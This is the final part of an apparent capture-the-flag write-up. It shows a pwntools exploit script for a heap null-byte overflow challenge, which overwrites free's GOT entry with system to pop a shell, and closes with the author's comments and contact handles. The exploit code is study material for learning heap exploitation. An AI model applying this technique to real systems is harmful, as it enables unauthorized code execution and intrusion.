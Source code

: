 ```py
    add_msg("a",  b"A" * 424+ p64(prev_size)  + p64(current_chunk_address + 0x10) * 2+ p64(current_chunk_address) * 2)

    for i in range(6):
        add_msg("t", "t")

    
    chunk_a = add_msg(b"B" * 0x70 + p64(prev_size), "/bin/sh\x00")

    set_sender("AVOID CONSOLIDATION")

    send_all()
    input()

    for i in range(7):
        add_msg()

    binshaddress = heap_base + 0x1600
    free_got = 0x404018

    chunk = add_msg("J", b"X" * 72 + p64(0x21) + p64(binshaddress) + p64(free_got))

    p.recvuntil("> ")
    p.sendline("3")
    p.recvuntil("Name: ")
    p.sendline("/bin/sh\x00") # this iwll be freed
    p.recvuntil("message: ")
    libc.address = u64(p.recvline()[:-1].ljust(8, b'\x00')) - 0x8cef0
    p.recvuntil("message: ")
    p.sendline(p64(libc.sym.system)) 

    p.interactive()




if __name__ == "__main__":
    main()
```


## Appendix

I really enjoyed this challenge, it taught me a lot about nullbyte overflows and how they can be exploited in the heap.

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).
